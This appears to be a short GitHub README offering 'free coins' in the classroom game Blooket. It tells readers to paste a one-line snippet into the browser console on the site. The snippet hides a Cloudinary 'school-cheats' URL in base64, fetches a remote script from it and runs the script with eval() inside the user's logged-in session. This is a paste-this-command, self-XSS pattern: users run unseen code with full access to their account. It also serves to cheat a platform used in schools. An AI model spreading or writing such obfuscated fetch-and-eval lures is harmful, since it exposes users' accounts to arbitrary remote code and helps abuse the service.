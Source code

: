 # Free-coins-for-blooket
500 coins per day for free








Step 1: Open Blooket and go to inspect.








Step 2: Copy the code at the bottom of the page.




Step 3: Paste the code in the console after inspecting the page.




Step 4: type in 500 into the box that appears.




Step 5: Re-load the page.




Step 6: Enjoy!






The code is below.

   
   
   
   fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
   
   

